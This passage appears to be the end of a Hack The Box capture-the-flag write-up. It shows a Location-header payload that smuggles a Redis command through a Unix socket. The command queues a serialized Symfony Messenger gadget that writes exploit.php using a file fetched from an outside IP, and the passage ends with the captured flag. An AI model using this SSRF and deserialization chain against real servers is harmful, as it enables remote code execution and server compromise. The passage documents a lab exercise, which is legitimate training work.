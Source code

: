 ```
Location: http://unix:/var/run/redis/redis.sock:"redis.call('XADD','messages','*','message','s:1053:\"{\"body\":\"O:36:\\\\\\\\\\\\\"Symfony\\\\\\\\\\\\\\\\Component\\\\\\\\\\\\\\\\Messenger\\\\\\\\\\\\\\\\Envelope\\\\\\\\\\\\\":2:{s:44:\\\\\\\\\\\\\"\\\\\\\\0Symfony\\\\\\\\\\\\\\\\Component\\\\\\\\\\\\\\\\Messenger\\\\\\\\\\\\\\\\Envelope\\\\\\\\0stamps\\\\\\\\\\\\\";a:1:{s:46:\\\\\\\\\\\\\"Symfony\\\\\\\\\\\\\\\\Component\\\\\\\\\\\\\\\\Messenger\\\\\\\\\\\\\\\\Stamp\\\\\\\\\\\\\\\\BusNameStamp\\\\\\\\\\\\\";a:1:{i:0;O:46:\\\\\\\\\\\\\"Symfony\\\\\\\\\\\\\\\\Component\\\\\\\\\\\\\\\\Messenger\\\\\\\\\\\\\\\\Stamp\\\\\\\\\\\\\\\\BusNameStamp\\\\\\\\\\\\\":1:{s:55:\\\\\\\\\\\\\"\\\\\\\\0Symfony\\\\\\\\\\\\\\\\Component\\\\\\\\\\\\\\\\Messenger\\\\\\\\\\\\\\\\Stamp\\\\\\\\\\\\\\\\BusNameStamp\\\\\\\\0busName\\\\\\\\\\\\\";s:21:\\\\\\\\\\\\\"messenger.bus.default\\\\\\\\\\\\\";}}}s:45:\\\\\\\\\\\\\"\\\\\\\\0Symfony\\\\\\\\\\\\\\\\Component\\\\\\\\\\\\\\\\Messenger\\\\\\\\\\\\\\\\Envelope\\\\\\\\0message\\\\\\\\\\\\\";O:33:\\\\\\\\\\\\\"App\\\\\\\\\\\\\\\\Message\\\\\\\\\\\\\\\\SubscribeNotification\\\\\\\\\\\\\":4:{s:5:\\\\\\\\\\\\\"email\\\\\\\\\\\\\";s:6:\\\\\\\\\\\\\"a@a.fr\\\\\\\\\\\\\";s:4:\\\\\\\\\\\\\"uuid\\\\\\\\\\\\\";O:47:\\\\\\\\\\\\\"App\\\\\\\\\\\\\\\\MessageHandler\\\\\\\\\\\\\\\\SubscribeNotificationHandler\\\\\\\\\\\\\":7:{s:5:\\\\\\\\\\\\\"email\\\\\\\\\\\\\";N;s:4:\\\\\\\\\\\\\"uuid\\\\\\\\\\\\\";N;s:11:\\\\\\\\\\\\\"export_file\\\\\\\\\\\\\";s:11:\\\\\\\\\\\\\"exploit.php\\\\\\\\\\\\\";s:12:\\\\\\\\\\\\\"x_coordinate\\\\\\\\\\\\\";N;s:12:\\\\\\\\\\\\\"y_coordinate\\\\\\\\\\\\\";N;s:3:\\\\\\\\\\\\\"map\\\\\\\\\\\\\";s:30:\\\\\\\\\\\\\"http:\\\\/\\\\/146.59.156.82\\\\/blank.png\\\\\\\\\\\\\";s:5:\\\\\\\\\\\\\"stamp\\\\\\\\\\\\\";s:30:\\\\\\\\\\\\\"http:\\\\/\\\\/146.59.156.82\\\\/blank.png\\\\\\\\\\\\\";}s:12:\\\\\\\\\\\\\"x_coordinate\\\\\\\\\\\\\";s:3:\\\\\\\\\\\\\"420\\\\\\\\\\\\\";s:12:\\\\\\\\\\\\\"y_coordinate\\\\\\\\\\\\\";s:3:\\\\\\\\\\\\\"226\\\\\\\\\\\\\";}}\",\"headers\":[]}\";'); return ARGV[1];" 0
```

We thus obtain the flag : `HTB{7r1p_t0_Da_r3d1sl4nD_pr0xy_p455_y0u_1n!}`